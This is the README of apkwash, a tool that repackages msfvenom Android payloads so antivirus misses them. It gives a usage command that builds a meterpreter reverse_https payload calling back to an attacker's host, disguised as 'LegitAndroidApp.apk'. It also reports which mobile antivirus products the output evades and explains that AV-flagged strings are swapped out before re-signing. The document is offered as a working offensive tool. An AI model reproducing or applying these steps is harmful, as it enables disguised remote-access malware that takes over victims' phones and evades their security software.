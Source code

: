 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get dist-upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<br>
<b>Usage Example:</b><br>
apkwash -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o LegitAndroidApp.apk<br>
<br>
<b>Output:</b><br>
\<LegitAndroidApp>.apk & \<LegitAndroidApp>.listener<br>
<br>
<b>Default values:</b><br>
	payload=android/meterpreter/reverse_https<br>
	LHOST=\<eth0 IP address><br>
	LPORT=443<br>
	output=AndroidService.apk<br>
<br>
<b>Options</b><br>
  -p | --payload 	\<payload>	This sets the payload to be generated by msfvenom.<br>
  -o | --output 	\<outfile.apk>	This sets the name of the APK created as well as the output apk file.<br>
	## The script currently contains a bug using this option. ##
  -x | --original 	\<infile.apk>	Input APK to inject the payload into (later update).<br>
  -g | --generate			Generate a payload using defaults<br>
  -n | --newkey 			Generate a new debug key before signing<br>
  -v | --verbose 			Don't mask output of commands<br>
  -d | --debug				Leaves the /tmp/payload files in place for review<br>
  -h | --help 				Help information<br>
<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 20Mar17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
Verified for Lookout<br>
FLAGGED BY AVAST!<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase." Based on this alone it doesn't appear we can modify anything to avoid being flagged. It allows the user to accept the risks, or uninstall the app.<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Run with '-d' and -'v' to display as much output along with not removing the /tmp/payload files.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system (apt-get update && apt-get dist-upgrade. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>

